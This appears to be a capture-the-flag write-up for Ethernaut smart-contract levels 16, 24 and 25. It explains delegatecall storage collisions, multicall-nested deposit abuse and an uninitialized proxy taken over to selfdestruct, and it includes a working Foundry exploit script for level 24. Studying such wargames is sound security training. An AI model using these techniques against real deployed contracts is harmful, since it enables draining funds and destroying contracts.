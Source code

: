 ### Ethernaut 16

The bug is in the storage slot collision. LibraryContract.delegatecall writes to the same slot where `address public timeZone1Library` resides. We can use leverage that to rewrite the library's address to arbitrary contract

### Ethernaut 24

Although the `multicall` function restricts calling `deposit` more than 1 time in one call, we can batch `multicall` itself in a multicall and deposit multiple times that way

```solidity
vm.startPrank(player);

level.proposeNewAdmin(player); // rewrite slot 0 on puzzlewallet
puzzleWallet.addToWhitelist(player);

bytes[] memory deposit = new bytes[](1);
deposit[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector); // deposit in a batch

bytes[] memory batch = new bytes[](2);
batch[0] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, deposit);
batch[1] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, deposit); // 2 batched multicalls with 1 deposit

puzzleWallet.multicall{value: 0.001 ether}(batch);

puzzleWallet.execute(player, 0.002 ether, "");

puzzleWallet.setMaxBalance(uint256(player));

vm.stopPrank();

assert(level.admin() == player);
```

### Ethernaut 25

The implementation contract was not initialized, so we can do it ourselves and become the upgrader of the contract

After that we can `upgradeToAndCall` with the address of a contract that will `selfdestruct` in the context of the implementation contract resulting it's deletion

